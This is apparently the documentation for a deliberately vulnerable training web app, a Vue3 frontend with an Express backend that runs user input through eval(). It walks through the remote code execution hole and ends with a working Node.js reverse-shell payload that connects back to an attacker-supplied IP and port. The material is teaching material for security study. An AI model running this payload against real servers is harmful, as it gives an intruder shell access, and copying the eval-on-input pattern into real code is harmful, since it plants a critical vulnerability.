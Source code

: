 # Documentation
## Frontend
The Frontend was made with the Vue3 Framework and Element Plus UI library.  
It's only purpose is to send the user input to the backend.  
To simplify the REST communication the axios library was used.  
### UI
The UI is designed to immediately show the user what backend vulnerabilities are to be expected.  
>![](doc/assets/frontend.png)  
To the user it's presented as a site to return a greeting of their choice.  
There are multiple hints on the page, for example that the backend will evaluate the text (JavaScript eval() vulnerability)   or the popover that states that the string needs to be encased with quotation marks. This leads the user to knowing that its some kind of remote code execution vulnerability.  
### Usage
>When the user imputs the string with quotation marks, the backend will return the greeting.  
![](doc/assets/frontend2.png)  

>Otherwise the user will find an error in the console stating that the imput (in this case World) is not defined.  
This shows that the backend is vulnerable to a remote code execution vulnerability.  
![](doc/assets/frontend3.png)  

## Backend
The backend was made with the Express Framework and NodeJS.
For the backend we modified an existing example to make it fit for our needs.
### <ins>Vulnerability</ins>
The backend is vulnerable to a remote code execution vulnerability through the eval() function by that the backend will try to execute the user input as JavaScript code.  
So for example if the user inputs `console.log("Hello World")` the backend will log `Hello World` to the console.

### <ins>Exploit</ins>
If you input the following code in the frontend, you will get a reverse shell to your machine, as the will execute the code within the eval() function.
``` JavaScript
var net = require("net"), sh = require("child_process").exec("/bin/bash");
var client = new net.Socket();
client.connect(<Socket You are listenning on>, "<Your-IP>", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);
sh.stderr.pipe(client);});
```
>As import statements will not work with the eval() function the require() function is needed to import the net and child_process modules.  
The net module is used to create a socket and the child_process module is used to execute the bash shell.  
The socket is then connected to the port you are listening on and the bash shell is executed.
All the output of the shell is then piped to the socket and all the input from the socket is piped to the shell.
By this we can execute commands from our own machine on the backend machine as the user that is running the backend.